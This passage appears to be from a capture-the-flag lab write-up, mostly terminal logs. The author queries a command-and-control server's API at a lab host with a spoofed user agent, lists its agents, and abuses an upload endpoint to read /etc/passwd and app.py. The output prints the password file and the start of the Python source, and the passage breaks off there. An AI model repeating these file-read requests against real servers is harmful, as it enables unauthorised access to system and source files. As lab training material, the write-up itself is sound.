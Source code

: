 
root@ip-10-10-11-235:~# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/server
{"guid": "9e29fc5d-31dc-4fc2-9318-d17b2694d8aa", "name": "C2-SHRIKE-1"}

root@ip-10-10-11-235:~# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents
{'jytj-tdgr-hgbh-ptlx': 'www-infinity', 'liyk-ffcr-pppp-whny': 'ip-10-10-11-235'}

root@ip-10-10-11-235:~# curl -X POST -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/jytj-tdgr-hgbh-ptlx/upload -H "Content-Type: application/json" -d '{"file":"/etc/passwd"}'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

![image](https://github.com/user-attachments/assets/e26a0dd1-299d-4464-8c19-f3a3ead96dd3)

![image](https://github.com/user-attachments/assets/3925e6b6-30a8-4814-8504-e67eade337b5)

![image](https://github.com/user-attachments/assets/d2384404-c887-4544-8439-0f3880c2570b)

root@ip-10-10-11-235:~# curl -X POST -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/jytj-tdgr-hgbh-ptlx/upload -H "Content-Type: application/json" -d '{"file":"app.py"}'
import logging
import sys
import json
from threading import Thread
import re
import random
from os import system

import flask
from flask import request, abort
from flask_cors import CORS
